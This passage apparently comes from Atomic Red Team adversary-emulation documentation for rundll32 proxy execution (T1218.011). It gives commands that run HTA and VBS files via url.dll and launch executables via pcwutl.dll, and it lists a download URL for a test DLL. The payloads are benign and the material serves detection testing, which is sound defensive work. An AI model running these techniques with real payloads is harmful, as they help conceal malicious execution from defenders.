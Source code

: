 ```cmd
rundll32.exe url.dll,OpenURL PathToAtomicsFolder\T1218.011\src\index.hta
rundll32.exe URL.dll,FileProtocolHandler PathToAtomicsFolder\T1218.011\src\akteullen.vbs
```






<br/>
<br/>

## Atomic Test #9 - Launches an executable using Rundll32 and pcwutl.dll
Executes the LaunchApplication function in pcwutl.dll to proxy execution of an executable.

**Supported Platforms:** Windows


**auto_generated_guid:** 9f5d081a-ee5a-42f9-a04e-b7bdc487e676





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_to_launch | Path of the executable to launch | Path | %windir%&#92;System32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe pcwutl.dll,LaunchApplication #{exe_to_launch}
```






<br/>
<br/>

## Atomic Test #10 - Execution of non-dll using rundll32.exe
Rundll32.exe running non-dll

**Supported Platforms:** Windows


**auto_generated_guid:** ae3a8605-b26e-457c-b6b3-2702fd335bac





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_url | Url to download the DLL | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1047/bin/calc.dll|
| input_file | Non-dll file | String | C:&#92;Users&#92;$env:username&#92;Downloads&#92;calc.png|
